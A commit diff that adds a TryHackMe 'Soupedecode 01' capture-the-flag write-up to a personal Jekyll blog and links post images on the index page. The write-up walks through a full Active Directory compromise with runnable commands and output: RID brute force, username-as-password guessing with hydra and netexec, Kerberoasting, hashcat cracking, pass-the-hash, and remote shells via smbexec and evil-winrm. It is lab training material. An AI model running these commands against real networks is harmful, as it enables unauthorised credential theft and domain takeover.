

Before and after one commit to timsonner/timsonner.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
added <a> functionality to blog images in blog posts list, added article soupedecode01

````diff
--- /dev/null
+++ b/_posts/2025-10-05-thm-soupedecode01.md
@@ -0,0 +1,548 @@
+---
+layout: post
+title: "TryHackMe - Soupedecode 01"
+date: 2025-10-05 10:00:00 -0000
+categories: thm
+excerpt: "Enumerating users using RID brute force, Dictionary password attacks, Kerberoasting, and Passing the hash."
+featured_image: "/assets/images/thm-soupedecode01/thm-soupedecode01-hero.jpg"
+---
+
+> Eastern American Red Fox (Vulpes vulpes ssp. fulvus) observed in Algonquin Provincial Park, Ontario on January 2017. Joanne Redwood https://www.inaturalist.org/photos/6568101
+
+## Overview
+
+This TryHackMe challenge demonstrates a complete Active Directory penetration testing workflow, progressing from initial enumeration to domain compromise through credential harvesting and lateral movement techniques.
+
+## Attack Methodology Outline
+
+### Phase 1: Initial Enumeration
+1. **User Discovery via RID Brute Force**
+   - Use multiple tools (netexec, impacket, enum4linux-ng) to enumerate domain users
+   - Extract usernames from domain controllers using anonymous access
+   - Build comprehensive user lists for further attacks
+
+### Phase 2: Credential Discovery
+2. **Dictionary Password Attacks**
+   - Perform dictionary attack against discovered user accounts
+   - Use common username/password combinations
+   - Validate credentials through LDAP and SMB protocols
+
+### Phase 3: Domain Reconnaissance
+3. **Share Enumeration**
+   - Map accessible SMB shares using valid credentials
+   - Access sensitive files and directories
+   - Gather additional user information through SAMR protocol (optional)
+
+### Phase 4: Service Account Exploitation
+4. **Kerberoasting Attack**
+   - Identify service accounts with Service Principal Names (SPNs)
+   - Request Kerberos tickets for service accounts
+   - Crack ticket hashes to recover service account passwords
+
+### Phase 5: Privilege Escalation
+5. **Hash Extraction and Pass-the-Hash**
+   - Extract NTLM hashes from compromised systems
+   - Use pass-the-hash techniques to move laterally
+   - Gain administrative access to target systems
+
+### Phase 6: System Access
+6. **Remote Shell Access**
+   - Establish interactive shells using extracted credentials
+   - Use tools like smbexec and Evil-WinRM for persistence
+   - Complete domain compromise
+
+---
+
+## Technical Implementation
+
+# Phase 1: Initial Enumeration
+
+**What is RID Brute Force?**
+
+RID (Relative Identifier) brute force is a technique used to enumerate user accounts in Windows domains. Every user and group in a Windows domain has a unique Security Identifier (SID) that ends with a RID (Relative ID) number. By systematically querying sequential RID values (typically starting from 500), attackers can discover valid usernames even when other enumeration methods are restricted. This works because Windows systems will return user information when queried with a valid RID, making it an effective reconnaissance technique against Active Directory environments.
+
+We need to enumerate users, we can guess at usernames or we can use a tool to brute force usernames using their RIDs.
+
+### Netexec - Enumerate usernames using RID brute force
+We can use `NetExec` to brute force the usernames of the domain.
+```bash
+netexec smb X.X.X.X -u anonymous -p '' --users --rid-brute | tee netexec-enum-users.txt
+```
+
+This will return something like
+```
+SMB                      X.X.X.X    445    DC01             2019: SOUPEDECODE\squincy951 (SidTypeUser)
+SMB                      X.X.X.X    445    DC01             2020: SOUPEDECODE\qursula952 (SidTypeUser)
+SMB                      X.X.X.X    445    DC01             2021: SOUPEDECODE\akevin953 (SidTypeUser)
+SMB                      X.X.X.X    445    DC01             2022: SOUPEDECODE\yquinn954 (SidTypeUser)
+SMB                      X.X.X.X    445    DC01             2023: SOUPEDECODE\padam955 (SidTypeUser)
+SMB                      X.X.X.X    445    DC01             2024: SOUPEDECODE\pgrace956 (SidTypeUser)
+```
+
+We want to make a list of usernames, so we're most interested in the 6th column
+Let's display the 6th column of the file only using `awk`
+```bash
+awk '{print $6}' netexec-enum-users.txt
+```
+
+This returns something like DOMAIN\username
+```
+SOUPEDECODE\asean958
+SOUPEDECODE\zmegan959
+SOUPEDECODE\syusuf960
+SOUPEDECODE\tfaith961
+SOUPEDECODE\nquinn962
+```
+
+This output is perfect for using `hydra` to brute force passwords, so lets save this output to use later
+```bash
+awk '{print $6}' netexec-enum-users.txt > domain-usernames.txt
+```
+
+We can also create a list of just the usernames by using `sed`. This can come in handy if we want to use `NetExec` or `hydra` to brute force the passwords.
+```bash
+awk '{print $6}' enum-users.txt | sed 's/SOUPEDECODE\\//' > usernames.txt
+```
+
+This gives us something like
+```
+tgrace989
+uquinn990
+xursula991
+ojudy992
+lhelen993
+```
+
+### Impacket - Enumerate usernames using RID brute force
+An alternative tool to `NetExec` for brute forcing username RIDs is using Impacket's `lookupsid.py`
+
+```bash
+python3 lookupsid.py anonymous@X.X.X.X -no-pass
+```
+
+Which will give output like
+```
+1172: SOUPEDECODE\zcolin69 (SidTypeUser)
+1173: SOUPEDECODE\wzane70 (SidTypeUser)
+1174: SOUPEDECODE\poscar71 (SidTypeUser)
+1175: SOUPEDECODE\walice72 (SidTypeUser)
+1176: SOUPEDECODE\gvera73 (SidTypeUser)
+```
+
+Use `sed` and `awk` to parse output to your liking
+
+### enum4linux-ng - Enumerate usernames
+Once we have a list of usernames we could potentially enumerate which users have "Listing" access to shares. This will take a while, I list it more for proof of concept and to show another tool. Search output for "Listing: OK" when complete
+
+```bash
+while read user; do
+  enum4linux-ng -u "$user" -p '' X.X.X.X -S >> enum-users-enum4linux.txt
+done < usernames.txt
+```
+
+# Phase 2: Credential Discovery
+
+**Password dictionary attack with wordlists**
+
+Password brute forcing involves systematically testing username/password combinations against authentication services. Instead of trying random passwords, we use curated wordlists containing common passwords, leaked credentials, and password patterns. This approach is more efficient than pure brute force since it targets passwords that users actually choose. Tools like `NetExec` and `hydra` can test multiple credentials simultaneously while handling authentication protocols like SMB and LDAP.
+
+Now that we have a valid list of usernames, we can begin attempting to guess passwords using word lists (in this case, we're going to try looking for accounts where the username is also the password).
+Thankfully modern Enterprise AD environments do not allow this by default.
+
+### Netexec - Dictionary attack
+```bash
+netexec smb X.X.X.X -u usernames.txt -p usernames.txt --continue-on-success --no-brute | tee netexec-dictionary-results.txt
+```
+The `--continue-on-success` flag ensures we find all valid credentials, not just the first match.
+
+The output of the `NetExec` password attack will look like
+```
+GON_FAILURE
+SMB                      X.X.X.X   445    DC01             [-] SOUPEDECODE.LOCAL\pyvonne27:pyvonne27 STATUS_LOGON_FAILURE
+SMB                      X.X.X.X   445    DC01             [-] SOUPEDECODE.LOCAL\zfrank28:zfrank28 STATUS_LOGON_FAILURE
+SMB                      X.X.X.X   445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
+SMB                      X.X.X.X   445    DC01             [-] SOUPEDECODE.LOCAL\file_svc:file_svc STATUS_LOGON_FAILURE
+SMB                      X.X.X.X   445    DC01             [-] SOUPEDECODE.LOCAL\charlie:charlie STATUS_LOGON_FAILURE
+```
+
+`[+] SOUPEDECODE.LOCAL\<username>:<password>` without `STATUS_LOGON_FAILURE` would indicate a valid login account
+
+We can also use `Hydra` to perform a dictionary attack
+### Hydra - Dictionary attack (testing matching username/password pairs)
+
+We read lines from the `domain-usernames.txt` file, we parse the file on the fly providing DOMAIN\\\<username> as the username and the username (no domain) as the password. This is also a good example of using a while loop and and reading from a file using `bash` scripting. `IFS$'\\'` means Input File Seperator and we are using an escaped `\` (the `\` from DOMAIN\<username>)as the seperator.
+
+We pass `ldap3` as the protocol to `hydra`
+
+```bash
+while IFS=$'\\' read domain_user username; do
+  echo "Testing: $domain_user with password: $username"
+  hydra -l "$domain_user\\$username" -p "$username" X.X.X.X ldap3 >> hydra-dictionary-results.txt
+done < domain-usernames.txt
+```
+
+Our output would look something like this.
+Look for the green in the terminal output to denote successfull login.
+```bash
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-06 02:47:50
+[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
+[DATA] attacking ldap3://X.X.X.X:389/
+[389][ldap3] host: X.X.X.X   login: SOUPEDECODE\ybob317   password: ybob317
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-06 02:47:50
+Testing: SOUPEDECODE with password: file_svc
+Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+```
+
+### Hydra - Verify single LDAP creds
+We can also test credentials of a single user using `hydra`
+
+```bash
+hydra -l <domain>\\<username> -p <password> X.X.X.X ldap3
+```
+
+# Phase 3: Domain Reconnaissance
+
+**Domain Reconnaissance**
+
+With valid domain credentials in hand, we can now perform deeper reconnaissance within the domain environment. We'll enumerate SMB shares to find sensitive files and data repositories, gather detailed user information through SAMR queries, and perform Kerberoasting attacks to identify service accounts with weak passwords. This reconnaissance provides the intelligence needed for privilege escalation and lateral movement.
+
+### Enum4Linux-ng - Enumerate shares
+We can use `Enum4Linux-ng` to enumerate information about shares our compromised account has access to
+```bash
+enum4linux-ng -u '<username>' -p '<password>' X.X.X.X -S
+```
+
+The output tells us that our account has "Listing: OK" status for the Users share and this is where one would find potentially sensitive information or something to use for further lateral movement.
+```bash
+[*] Testing share ADMIN$
+[+] Mapping: DENIED, Listing: N/A
+[*] Testing share C$
+[+] Mapping: DENIED, Listing: N/A
+[*] Testing share IPC$
+[+] Mapping: OK, Listing: NOT SUPPORTED
+[*] Testing share NETLOGON
+[+] Mapping: OK, Listing: OK
+[*] Testing share SYSVOL
+[+] Mapping: OK, Listing: OK
+[*] Testing share Users
+[+] Mapping: OK, Listing: OK
+[*] Testing share backup
+[+] Mapping: OK, Listing: DENIED
+```
+
+### Netexec - Enumerate shares
+One could also use `NetExec` to enumerate shares the user has access to
+```bash
+netexec smb X.X.X.X -u <username> -p <password> --shares -d <domain>
+```
+
+`NetExec` would give us something like
+```bash
+SMB         X.X.X.X    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
+SMB         X.X.X.X    445    DC01             [+] SOUPEDECODE\ybob317:ybob317
+SMB         X.X.X.X    445    DC01             [*] Enumerated shares
+SMB         X.X.X.X    445    DC01             Share           Permissions     Remark
+SMB         X.X.X.X    445    DC01             -----           -----------     ------
+SMB         X.X.X.X    445    DC01             ADMIN$                          Remote Admin
+SMB         X.X.X.X    445    DC01             backup
+SMB         X.X.X.X    445    DC01             C$                              Default share
+SMB         X.X.X.X    445    DC01             IPC$            READ            Remote IPC
+SMB         X.X.X.X    445    DC01             NETLOGON        READ            Logon server share
+SMB         X.X.X.X    445    DC01             SYSVOL          READ            Logon server share
+SMB         X.X.X.X    445    DC01             Users           READ
+```
+
+### Impacket - Access data in shares
+We'll use Impacket's `smbclient.py` to explore the shares.
+```bash
+smbclient.py <domain>/<username>:<password>@X.X.X.X
+```
+
+Once connected, use the command `shares` to list available shares. From our previous output with `Enum4Linux-ng`, we may want to check the "Users" share.
+
+Use the `use` command to acces the "Users" share. There one will find the first flag.
+
+```
+Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies
+
+Type help for list of commands
+# shares
+ADMIN$
+backup
+C$
+IPC$
+NETLOGON
+SYSVOL
+Users
+# use Users
+# ls
+drw-rw-rw-          0  Thu Jul  4 22:48:22 2024 .
+drw-rw-rw-          0  Wed Jun 18 22:14:47 2025 ..
+drw-rw-rw-          0  Thu Jul  4 22:49:01 2024 admin
+drw-rw-rw-          0  Fri Jul 25 17:45:10 2025 Administrator
+drw-rw-rw-          0  Sun Jun 16 03:49:29 2024 All Users
+drw-rw-rw-          0  Sun Jun 16 02:51:08 2024 Default
+drw-rw-rw-          0  Sun Jun 16 03:49:29 2024 Default User
+-rw-rw-rw-        174  Sun Jun 16 03:46:32 2024 desktop.ini
+drw-rw-rw-          0  Sat Jun 15 17:54:32 2024 Public
+drw-rw-rw-          0  Mon Jun 17 17:24:32 2024 ybob317
+#
+```
+
+### Enumerate user info (RID, comments, last logon, etc. YMMV)
+If you want to be extra (not necessary for this room, but depending on system it could give visibility into "Comments" on user accounts). YMMV.
+```bash
+samrdump.py <username>:<password>@X.X.X.X
+```
+
+# Phase 4: Service Account Exploitation
+
+**Kerberoasting**
+
+Kerberoasting is an attack technique that targets service accounts in Active Directory environments. When a service account has a Service Principal Name (SPN) registered, any authenticated domain user can request a Kerberos service ticket (TGS) for that service. These tickets are encrypted with the service account's password hash. Since service accounts often have weak or static passwords, attackers can extract these tickets and perform offline password cracking attacks using tools like hashcat. Successful Kerberoasting can reveal service account passwords, which often have elevated privileges in the domain.
+
+> Having the IP of the domain mapped to the domain name in `/etc/hosts` is importand for Kerberoasting. Having the FQND `DOMAIN.LOCAL` in `/etc/hosts` and the `GetUserSPNs.py` is essential for this to work.
+
+### Impacket - Kerberoast domain using known account cred
+```bash
+echo "X.X.X.X <domain.local>" >> /etc/hosts
+
+GetUserSPNs.py <domain.local>/<username>:<password> -dc-ip X.X.X.X -target-domain <domain.local> -request -outputfile impacket-roasted.txt
+```
+
+Which gives us some service accounts that were roasted.
+```
+Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies
+
+[!] KDC IP address and hostname will be ignored because of cross-domain targeting.
+ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation
+----------------------  --------------  --------  --------------------------  ---------  ----------
+FTP/FileServer          file_svc                  2024-06-17 17:32:23.726085  <never>
+FW/ProxyServer          firewall_svc              2024-06-17 17:28:32.710125  <never>
+HTTP/BackupServer       backup_svc                2024-06-17 17:28:49.476511  <never>
+HTTP/WebServer          web_svc                   2024-06-17 17:29:04.569417  <never>
+HTTPS/MonitoringServer  monitoring_svc            2024-06-17 17:29:18.511871  <never>
+```
+
+If we look in the output file, we will see hashes for the accounts
+
+### Netexec - Kerberoast domain using known account cred
+Same concept, we roast the accounts and receive the NTLM hashes
+```bash
+echo "X.X.X.X <domain.local>" >> /etc/hosts
+
+netexec ldap X.X.X.X -u <username> -p <password> --kerberoasting netexec-roasted.txt
+```
+
+`NetExec` output followed by hashes
+```
+LDAP        X.X.X.X   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SOUPEDECODE.LOCAL)
+LDAP        X.X.X.X   389    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
+LDAP        X.X.X.X   389    DC01             [*] Skipping disabled account: krbtgt
+LDAP        X.X.X.X   389    DC01             [*] Total of records returned 5
+LDAP        X.X.X.X   389    DC01             [*] sAMAccountName: file_svc, memberOf: [], pwdLastSet: 2024-06-17 17:32:23.726085, lastLogon: <never>
+LDAP        X.X.X.X   389    DC01
+```
+
+### Hashcat - Crack hashes
+Now that we have the krb5tgs hashes, we can atempt to crack them
+```bash
+hashcat <netexec or impacket>-roasted.txt /usr/share/wordlists/rockyou.txt
+hashcat --show -m 13100 <netexec or impacket>-roasted.txt
+```
+
+This lets us know that out of the 5 roasted accounts, we were able to crack 1 hash
+```bash
+Recovered........: 1/5 (20.00%) Digests (total), 1/5 (20.00%) Digests (new), 1/5 (20.00%) Salts
+```
+
+Now that we've compromised the credentials of another account (a service account this time), lets see what access we have by enumerating shares using the service account.
+
+> Note: single quotes are important for the password argument here as they keep special characters from being interpolated by the shell.
+
+### Enum4linux-ng - Enumerate share info
+```bash
+enum4linux-ng -u '<service account>' -p '<password>' -S X.X.X.X
+```
+
+It looks like we have "Listing: OK" access to the "backup" share
+```bash
+[*] Testing share ADMIN$
+[+] Mapping: DENIED, Listing: N/A
+[*] Testing share C$
+[+] Mapping: DENIED, Listing: N/A
+[*] Testing share IPC$
+[+] Mapping: OK, Listing: NOT SUPPORTED
+[*] Testing share NETLOGON
+[+] Mapping: OK, Listing: OK
+[*] Testing share SYSVOL
+[+] Mapping: OK, Listing: OK
+[*] Testing share Users
+[+] Mapping: OK, Listing: DENIED
+[*] Testing share backup
+[+] Mapping: OK, Listing: OK
+```
+
+### Impacket - Use smbclient to access shares
+```bash
+smbclient.py '<domain>/<service account>':'<password>'@X.X.X.X
+```
+
+We access the share and download the data
+```bash
+Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies
+
+Type help for list of commands
+# shares
+ADMIN$
+backup
+C$
+IPC$
+NETLOGON
+SYSVOL
+Users
+# use backup
+# mget *
+[*] Downloading backup_extract.txt
+#
+```
+
+# Phase 5: Privilege Escalation
+
+**Pass-the-Hash**
+
+Pass-the-Hash (PtH) is a lateral movement technique that allows attackers to authenticate to remote systems using NTLM password hashes without needing to crack them first. Instead of requiring the plaintext password, PtH leverages the fact that Windows authentication protocols accept the hash directly. This technique is particularly effective with computer/machine account hashes (accounts ending with `$`) as these often have elevated privileges and access to multiple systems. Tools like `NetExec`, Impacket's `smbexec.py`, and `Evil-WinRM` can use these hashes to authenticate and gain remote access, making PtH a powerful technique for domain compromise and lateral movement.
+
+It appears that the `backup_extract.txt` contains several NTLM hashes for computer/machine accounts in the Username:RID:LM_Hash:NTLM_Hash::: format
+
+```
+WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
+```
+
+We can use these NTLM hashes for pass the hash lateral movement.
+
+### Use netexec to check hashes
+```bash
+while IFS=':' read -r user rid lmhash nthash rest; do
+  netexec smb X.X.X.X -u "$user" -H "$nthash" -d <domain>
+done < backup_extract.txt
+```
+
+The `NetExec` output lets us know we have a valid account hash we can use for pass the hash.
+```
+SMB         X.X.X.X   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
+SMB         X.X.X.X   445    DC01             [+] SOUPEDECODE\FileServer$:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx (Pwn3d!)
+SMB         X.X.X.X   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
+SMB         X.X.X.X   445    DC01             [-] SOUPEDECODE\MailServer$:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx STATUS_LOGON_FAILURE
+```
+
+# Phase 6: System Access
+
+**Remote System Access using Pass-the-Hash**
+
+With valid NTLM hashes, we can now establish remote interactive sessions using the hashes to authenticate and gain shell access without needing plaintext passwords. Tools like Impacket's `smbexec.py` provide semi-interactive command shells over SMB, while `Evil-WinRM` offers full PowerShell sessions over WinRM protocol. These remote access methods allow us to navigate the file system, execute commands, extract sensitive data, and establish persistence on the target systems.
+
+### Impacket - Launch semi-interactive shell
+We can use `smbexec.py` to pass the hash for a semi-interactive shell.
+```bash
+smbexec.py '<machine account>'@<domain.local> -hashes <lm hash>:<nt hash> -target-ip X.X.X.X
+```
+
+In `smbexec.py` semi-interactive shell, pass the path of the folder to view as an argument for the `dir` command. Use `type` to display the contents of a file.
+```
+Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies
+
+[!] Launching semi-interactive shell - Careful what you execute
+C:\Windows\system32>cd C:\Users
+[-] You can't CD under SMBEXEC. Use full paths.
+C:\Windows\system32>dir c:\Users
+ Volume in drive C has no label.
+ Volume Serial Number is CCB5-C4FB
+
+ Directory of c:\Users
+
+10/05/2025  11:04 PM    <DIR>          .
+07/04/2024  03:49 PM    <DIR>          admin
+10/05/2025  10:30 PM    <DIR>          Administrator
+10/05/2025  11:04 PM    <DIR>          FileServer$
+06/15/2024  10:54 AM    <DIR>          Public
+06/17/2024  10:24 AM    <DIR>          ybob317
+               0 File(s)              0 bytes
+               6 Dir(s)  43,925,721,088 bytes free
+
+C:\Windows\system32>
+C:\Windows\system32>dir C:\Users\Administrator\Desktop
+ Volume in drive C has no label.
+ Volume Serial Number is CCB5-C4FB
+
+ Directory of C:\Users\Administrator\Desktop
+
+07/25/2025  10:51 AM    <DIR>          .
+10/05/2025  10:30 PM    <DIR>          ..
+06/17/2024  10:41 AM    <DIR>          backup
+07/25/2025  10:51 AM                33 root.txt
+               1 File(s)             33 bytes
+               3 Dir(s)  43,925,532,672 bytes free
+
+C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
+xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
+
+C:\Windows\system32>
+```
+
+### Evil-WinRM
+I prefer `Evil-WinRM` very much over `smbexec.py` for remote terminal sessions.
+```bash
+evil-winrm -u <machine account> -H <nt hash> -i X.X.X.X
+```
+
+Our Evil-WinRM session to recover the final flag
+```
+Evil-WinRM shell v3.7
+
+Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
+
+Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
+
+Info: Establishing connection to remote endpoint
+*Evil-WinRM* PS C:\Users\FileServer$\Documents> ls c:/users
+
+
+    Directory: C:\users
+
+
+Mode                 LastWriteTime         Length Name
+----                 -------------         ------ ----
+d-----          7/4/2024   3:49 PM                admin
+d-----         10/5/2025  10:30 PM                Administrator
+d-----         10/5/2025  11:04 PM                FileServer$
+d-r---         6/15/2024  10:54 AM                Public
+d-----         6/17/2024  10:24 AM                ybob317
+
+
+*Evil-WinRM* PS C:\Users\FileServer$\Documents> ls c:/users/administrator/desktop
+
+
+    Directory: C:\users\administrator\desktop
+
+
+Mode                 LastWriteTime         Length Name
+----                 -------------         ------ ----
+d-----         6/17/2024  10:41 AM                backup
+-a----         7/25/2025  10:51 AM             33 root.txt
+
+
+*Evil-WinRM* PS C:\Users\FileServer$\Documents>
+```
+
+At this point, persistance can be setup using Scheduled Tasks, startup applications, registry keys or C2 agent.
--- a/index.html
+++ b/index.html
@@ -19,7 +19,9 @@
         <li class="post-item">
           {% if post.featured_image %}
             <div class="post-image">
-              <img src="{{ post.featured_image }}" alt="{{ post.title | escape }}" />
+              <a href="{{ post.url | relative_url }}">
+                <img src="{{ post.featured_image }}" alt="{{ post.title | escape }}" />
+              </a>
             </div>
           {% endif %}
           <div class="post-content-preview">
````
Also changed, not shown: assets/images/thm-soupedecode01/thm-soupedecode01-hero.jpg (added).
